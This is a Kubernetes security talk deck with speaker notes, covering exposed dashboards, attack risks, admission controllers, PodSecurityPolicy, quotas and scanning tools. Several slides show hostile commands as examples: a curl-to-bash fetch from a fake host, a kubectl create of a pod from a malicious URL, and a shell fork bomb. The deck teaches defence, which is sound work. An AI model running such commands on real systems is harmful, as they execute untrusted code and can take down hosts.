

# [fit] Kubernetes security

## Lewis Denham-Parry

## @denhamparry

---

# [fit] Inspiration

^
I'm not a security person.
Met a chap called Andy at Warpigs.
I was drunk, he was making slides in bash.
I looked at one of his talks.

---

# [fit]https://youtu.be/iWkiQk8Kdk8

---


---


---


---

# [fit] Thank you

## @sublimino

---

# Tesla

---


---

# [fit] kubernetes dashboard

---


---

# 2/20/2018

^
WTF is this date?

---

# 20/2/2018

---

# [fit] 2018-02-20T10:44:31+00:00

^
Nice story Lewis.
This is over a year ago.

---

# [fit] Pop quiz

^
Who thinks that this is still an issue?

---

# [fit] https://www.shodan.io/search?query=KubernetesDashboard

^
Go to browser

---

# 😯

^
So how do we feel about this.

---

# [fit] First reaction

---


---




---

# Don't use kubernetes

^
This is more of a joke.
We just need to be more secure.

---

# Potential risks

^
To be secure, we need to know how.
So what are our risks.

---

# Exfiltration of sensitive data

---

# [fit] Elevate privileges
# [fit] inside Kubernetes to 
# [fit] access all workloads

---

# [fit] Potentially Gain root access 
# [fit] to the Kubernetes worker nodes

---

# [fit] Perform lateral 
# [fit] network movement 
# [fit] outside the cluster

---

# [fit] Run compromised Pod

`kubectl create -f http://Insert_Malicious_URL_here/FakeApp.yaml`

---

# Social Engineering

## Example

---

```
$ curl SRI-Tools.com/fakeapp.sh | bash
$ Kubectl create –f http://SRI-Tools.com/k8s/FakeApp.yaml
```

---


---

# Kubernetes best practices

---

# Least Privileged

---

# [fit] https://kubernetes.io/docs/tasks/administer-cluster/securing-a-cluster/

Authentication
Authorisation (RBAC)
Network Segmentation
PodSecurityPolicy
Encrypt Secrets
Audit Everything
Admission Controllers

---

# [fit] Admission Controller

^
Operates on the API server
Intercepts requests prior to persistence of the object to the etcd DB
but after the request has been authenticated and authorized
Can only be configured by the cluster administrator

---

# [fit] It's just an API

^
Lets break Kubernetes down.
Away from everything else, we connect to an API.
Would you have an open API?

---

# More detail

---

# [fit] Layered security approach


* AlwaysPullImages
* DenyEscalatingExec
* PodSecurityPolicy
* ImagePolicyWebhook
* NodeRestriction
* PodNodeSelector
* ResourceQuota

---

# [fit] AlwaysPullImages

^
Prevent reusing images.
Images can only be used by those who have the credentials to pull them.
Any pod from any user can use the image by knowing the image’s name.

---

# [fit] DenyEscalatingExec

^
Prevent privilege escalation (exec or attach) via pods running with
* privileged: true
* Host IPC namespace
* Host PID namespace
If your cluster supports containers that run with escalated privileges, restrict the ability of end-users to exec commands in those containers, using this admission controller.

---

# [fit] PodSecurityPolicy

^
Privileged containers
Root namespaces
Volume types
Read only root file system
UID, GID of the container
SELinux/AppArmor context
seccomp profile
By Default there is no  Selinux/AppArmor/seccomp profile

---

# [fit] NodeRestriction

---

# [fit] :(){ :|:& };:

---

# ResourceQuota

| Name | Description |
| --- | --- |
| cpu | Total requested cpu usage |
| memory | Total requested memory usage |
| pods | Total number of active pods where phase is pending or active.|
| services | Total number of services |
| replicationcontrollers | Total number of replication controllers |
| resourcequotas | Total number of resource quotas |
| secrets | Total number of secrets |
| persistentvolumeclaims | Total number of persistent volume claims |

---

# [fit] Tools

---

# [fit] Aqua

---

## Kube-Hunter

---

## Kube-Bench

---

# Microscanner

```Dockerfile
FROM debian:jessie-slim
RUN apt-get update && apt-get -y install ca-certificates
ADD https://get.aquasec.com/microscanner
RUN chmod +x microscanner
ARG token
RUN /microscanner ${token} && rm /microscanner
```

---

### [fit] https://github.com/aquasecurity
### [fit] https://www.aquasec.com/

---

# [fit] Control Plane

---

## KUBESEC.io

---

### [fit] https://kubesec.io
### [fit] https://control-plane.io

---

# [fit] Development best practices

## Safe place

---

# Scheduled builds

---

# Release

---

# Chaos

---

# [fit] Thank You(s)

* Andrew Martin (@sublimino)
* Benjy Portnoy (@AquaSecTeam)
* Liz Rice (@lizrice)
* Rory McCune (@raesene)
* Aled James (@a\_ll\_james)

---

# Todo

https://cloud.google.com/kubernetes-engine/docs/how-to/hardening-your-cluster
https://cloud.google.com/solutions/best-practices-for-operating-containers
https://www.youtube.com/watch?v=2XCm7vveU5A
